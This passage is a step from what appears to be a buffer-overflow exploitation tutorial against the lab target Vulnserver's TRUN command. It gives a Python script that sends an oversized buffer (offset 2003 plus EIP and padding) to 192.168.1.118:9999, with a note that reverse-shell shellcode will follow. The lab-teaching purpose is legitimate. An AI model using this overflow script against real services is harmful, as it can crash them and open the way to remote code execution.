

Expanding the Space and Obtaining a Safe Padding
we have to find out how much space we have for our shellcode, which then executes the reverse shell.
We need to find space for our shellcode, keep in mind a typical windows payload is usually about 350-450 bytes.
Change the value of
• eip_address_location with the value found in the chapter “Find the Offset”
• s.connect with address and port of the service
• s.send with the value of the command of the service
#!/usr/bin/python
import socket
import sys
from time import sleep
eip_address_location = 2003
buffer = 'A' * eip_address_location + 'B' * 4 + 'C' * 500
try:
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.settimeout(2)
s.connect(('192.168.1.118',9999))
s.recv(1024)
print '[*] Sending buffer.'
s.send('TRUN /.:/' + buffer + '\r\n') #target the TRUN command
s.close()
except:
print '[*] Could not connect to target, exiting.'
sys.exit()
In Immunity Debugger right click on the ESP register and “Follow in Dump”
 This show that we have plenty of space